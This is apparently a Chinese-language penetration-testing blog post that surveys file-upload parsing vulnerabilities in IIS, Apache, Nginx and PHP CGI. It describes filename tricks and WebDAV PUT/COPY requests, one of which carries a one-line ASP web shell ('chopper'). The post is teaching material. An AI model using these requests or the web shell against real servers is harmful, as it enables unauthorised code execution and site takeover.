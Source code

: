 +++
date = "2016-07-20T16:08:17+08:00"
description = ""
draft = false
tags = ["文件上传"]
title = "文件上传之解析漏洞"
topics = ["Pentest"]

+++

### 0x00 解析漏洞
```
文件上传漏洞通常与Web容器的解析漏洞配合利用
常见Web容器有IIS、Nginx、Apache、Tomcat等
```

### 0x01 IIS解析漏洞
IIS6.0在解析文件时存在以下两个解析漏洞
```
1、当建立*.asp、*.asa格式的文件夹时，其目录下任意文件都会被iis当作asp文件来解析。
2、当文件名为*.asp;1.jpg时，IIS6.0同样会以ASP脚本来执行。
```
WebDav漏洞
```
    WebDav是一种基于HTTP1.1协议的通信协议，它扩展了HTTP协议。在开启WebDav后若
支持PUT、Move、Copy、Delete等方法，就会存在安全隐患。

测试步骤如下：
    1）通过OPTIONS探测服务器所支持的HTTP方法
    请求：
    OPTIONS / HTTP/1.1
    Host: www.xxxx.com
    2)通过PUT方法向服务器上传shell
    请求：
    PUT /a.txt HTTP/1.1
    Host: www.xxxx.com
    Content-Length: 30

    <%eval request("chopper") %>
    3)通过Move或Copy方法改名
    请求：
    COPY /a.txt HTTP/1.1
    Host: www.xxxx.com
    Destination: http://www.xxxx.com/cmd.asp
    4)用DELETE方法删除文件
    请求：
    DELETE /a.txt HTTP/1.1
    Host: www.xxxx.com

注：可用桂林老兵的IIS Write快速探测服务器是否存在WebDav漏洞
```

### 0x02 Apache解析漏洞
```
在Apache 1.x和Apache 2.x中存在解析漏洞。

Apache在解析文件时有一个原则，当碰到不认识的扩展名时，将会从后向前解析，
直到碰到认识的扩展名为止，如果都不认识，则会暴露其源代码。
如：1.php.rar.sa.xs就会被解析为php，可以据此来绕过文件名限制

可以在Apache安装目录下的文件"/conf/mime.types"中配置Apache可以识别的文件名
```

### 0x03 Nginx解析漏洞
```
对低版本的Nginx可以在任意文件名后添加%00.php进行解析攻击
如：上传图片xx.jpg，然后通过改名为xx.jpg%00.php就会解析为php
```

### 0x04 PHP CGI解析漏洞
```
当php的配置文件中的选项cgi.fix_pathinfo = 1开启时，当访问http://www.xxx.com/x.txt/x.php
时，若x.php不存在，则PHP会递归向前解析，将x.txt当作php脚本来解析

IIS7.0/7.5中：任意文件名/任意文件名.php就会被解析为php
Nginx中：任意文件名/任意文件名.php就会被解析为php
```